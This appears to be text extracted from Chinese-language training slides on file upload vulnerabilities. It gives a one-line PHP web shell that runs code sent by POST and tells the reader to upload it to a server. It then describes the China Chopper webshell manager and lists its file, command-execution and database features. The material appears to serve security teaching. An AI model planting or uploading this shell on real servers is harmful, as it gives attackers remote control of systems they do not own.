

主讲：枕边月亮
主讲：枕边月亮
主讲：枕边月亮
主讲：枕边月亮
主讲：枕边月亮
主讲：枕边月亮
主讲：枕边月亮
主讲：枕边月亮
主讲：枕边月亮
主讲：枕边月亮

文件上传漏洞
一句话木马
将包含以下内容的.php文件上传至服务端：
	<?php  eval($_POST['op']);  ?>
中国菜刀是一款Webshell管理软件，它用途广泛，使用方便，小巧实用，只要支持动态脚本的网站，都可以使用中国菜刀来进行管理。
文件管理
命令执行
数据库管理